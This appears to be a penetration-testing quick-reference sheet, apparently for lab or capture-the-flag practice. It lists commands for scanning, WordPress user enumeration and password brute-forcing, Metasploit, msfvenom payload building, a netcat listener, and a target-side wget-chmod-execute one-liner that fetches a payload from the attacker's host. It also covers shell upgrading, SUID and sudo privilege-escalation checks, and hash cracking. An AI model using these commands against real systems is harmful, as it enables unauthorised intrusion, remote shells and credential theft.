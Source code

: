 **Command Quick Reference:**

* **IP:** `ip a`
* **Ping:** `ping <IP>`
* **Nmap:** `sudo nmap -sS -sV <IP>`, `sudo nmap -Pn -sS -sV <IP>`
* **Dirb:** `dirb http://<IP> <wordlist>`
* **Wpscan:** `sudo wpscan --url <URL> -e ap,at,u`, `wpscan ... --usernames <user> --passwords <wordlist>`
* **Metasploit:** `msfconsole`, `search <term>`, `use <exploit>`, `options`, `set <option> <value>`, `run`
* **Msfvenom:** `msfvenom -p <payload> LHOST=<IP> LPORT=<port> -f <format> > <outfile>`
* **Netcat Listener:** `nc -lvnp <port>`
* **Python Web Server:** `python3 -m http.server <port>`
* **Payload Execution (Target):** `cd /tmp; wget http://<IP>:<port>/<file>; chmod +x <file>; ./<file>`
* **Shell Upgrade:** `python3 -c 'import pty; pty.spawn("/bin/bash")'`
* **Sudo Check:** `sudo -l`
* **SUID Check:** `find / -perm -u=s -type f 2>/dev/null`
* **John the Ripper:** `john --wordlist=<list> --format=<fmt> <hashfile>`

<div style="text-align: center">⁂</div>
